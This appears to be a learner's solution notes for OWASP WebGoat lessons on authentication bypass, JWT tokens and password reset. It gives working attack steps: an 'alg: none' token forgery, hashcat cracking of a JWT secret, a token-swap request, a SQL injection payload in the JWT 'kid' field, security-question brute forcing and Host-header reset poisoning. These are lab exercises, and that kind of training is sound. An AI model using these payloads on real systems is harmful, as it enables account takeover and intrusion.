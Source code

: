 # Authentication Bypass
### 2
	Method from the story doesn't work.
	But tempering with the names of the variables does.
	Change variable names to 'SecurityQuestionA' and 'SecurityQuestionB'.

# JWT Tokens
### 3
	Paste token to the WebWolf JWT tab and find name "user".
### 5
	Eavesdrop JWT from Tom.
	Put it to WebWolf and change:
	1. {
		"alg" : null
		}
	2. {
		"admin" : "true",
		"iat" : 1649869119, # this may be different
		"user" : "Tom"
		}

### 7
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parseClaimsJws-java.lang.String-
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parse-java.lang.String-

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0. = 
{
  "alg" : "none",
  "typ" : "JWT"
}
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}

1. Solution 1
2. Solution 3

### 8
Looked for dictionary: https://github.com/first20hours/google-10000-english

hashcat --force -m 16500 <token> google-10000-english.txt.
while knowing secret key: https://jwt.io/.
change username to WebGoat and change expiration date.
paste secret key in the bottom, without "secret base64 encoded".
copy "encoded" field.

### 10
open page 10 while in burp's browser
go to http history
find http://localhost:8080/WebGoat/JWT/refresh/login
find
Jerry:
{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
and
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

Tom:
{
	token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
}
now create request, request must have:
- POST request - @PostMapping
- Authorization header - Tom’s access token from the given log entries
- Content-Type header - 'application/json'
- data in JSON format access and refresh tokens - Jerry’s tokens copied straight from the /login endpoint response
- current JESSIONID
  
so for example:
POST /WebGoat/JWT/refresh/newToken HTTP/1.1
Host: localhost:8080
Content-Length: 223
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
Content-Type: application/json
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Linux"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=JvEkLZzu6hJuRITdAYRWW3U51wFko7S4wOSoieys
Connection: close

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

I got back 

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "XkuwXVEsoUNdtwejywFz"
}

then send to repeater some POST checkout:

### 11
Open browser from Burp.

by clicking Delete we get request:

POST /WebGoat/JWT/final/delete?token=eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycnkiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6izOU638uUCi6UhiOJKYzoEZGE8 HTTP/1.1

In the code for this lesson.
```
ResultSet rs = connection.createStatement().executeQuery("SELECT key FROM jwt_keys WHERE id = '" + kid + "'");
```

base64("new_key") = "bmV3X2tleQ=="

So we need to put something like as 'kid':
' UNION SELECT 'bmV3X2tleQ==' FROM jwt_keys; --

and produce jwt in jwt.io, also verify signature with:
! remeber to change names from jerry to tom in jwt.io

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
new_key

) secret base64 encoded

and then send it via Repeater

# Password Reset
### 2 
send email to WebWolf
login with 'leirbag'


### 4 
- open burp
- try to login while intercepting
- put it into intruder
- select **cluster bomb** type
- payload set 1:
  - tom
  - larry
  - admin
- payload set 2:
  - red
  - green
  - black
  - white
  - pink
  - orange
  - blue
  - gray
  - yellow
  - brown

answers: 
- larry; yellow
- admin; green


### 6
- via Burp
- use tom mail in the form 
- intercept resetPassword message
- change Host header to "localhost:9090"
- open WebWOlf
- go to Incoming Requests
- copy uri of last request
- change port to 8080 and add /WebGoat after
- paste link
- than you can login

# Secure Passwords
# 4 
"Just because you shot Jesse James doesn't mean you are Jesse James." - JbysJJdmyaJJ
